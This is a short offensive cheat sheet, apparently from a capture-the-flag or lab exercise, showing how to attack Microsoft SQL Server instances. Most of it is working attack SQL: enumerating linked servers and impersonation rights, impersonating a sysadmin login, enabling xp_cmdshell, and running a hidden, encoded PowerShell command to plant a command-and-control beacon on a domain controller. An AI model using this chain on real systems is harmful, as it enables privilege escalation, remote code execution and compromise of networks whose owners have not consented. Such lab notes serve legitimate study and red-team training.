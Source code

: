 ### MSSQL Server Commands:

1. List linked servers:
   ```sql
   SELECT name, data_source, provider
   FROM sys.servers
   WHERE is_linked = 1;
   ```
   This SQL query lists linked servers configured on the MSSQL instance.

2. List server-level impersonation permissions:
   ```sql
   SELECT 
       dp.name AS Impersonator,
       dp.type_desc AS Impersonator_Type,
       dp2.name AS Impersonated,
       dp2.type_desc AS Impersonated_Type
   FROM 
       sys.server_permissions AS perm
   JOIN 
       sys.server_principals AS dp ON perm.grantor_principal_id = dp.principal_id
   JOIN 
       sys.server_principals AS dp2 ON perm.grantee_principal_id = dp2.principal_id
   WHERE 
       perm.permission_name = 'IMPERSONATE'
   ORDER BY 
       dp.name, dp2.name;
   ```
   This query retrieves server-level impersonation permissions.

3. Impersonate sys-admin and confirm privileges:
   ```sql
   EXECUTE AS login = 'sys-admin'; SELECT SYSTEM_USER;
   SELECT IS_SRVROLEMEMBER('sysadmin');
   ```
   These commands impersonate the `sys-admin` login and confirm sysadmin privileges.

4. Enable xp-cmd shell and get a beacon:
   ```sql
   -- Check if xp_cmdshell is enabled on the linked server
   SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell'

   EXEC sp_serveroption @server = 'SQL-1.HACKR.GAMES', @optname = 'rpc out', @optvalue = 'true';

   -- Enable advanced options 
   EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;');

   -- Enable xp_cmdshell 
   EXEC ('EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') ;

   -- Recheck xp_cmdshell setting
   SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';

   -- Execute xp_cmdshell command 
   EXEC xp_cmdshell 'powershell.exe -nop -w hidden -enc [SQB...FAF]';
   ```
   These commands enable xp_cmdshell and execute a PowerShell command to get a beacon on the domain controller of the domain dev.hackerverse.games.
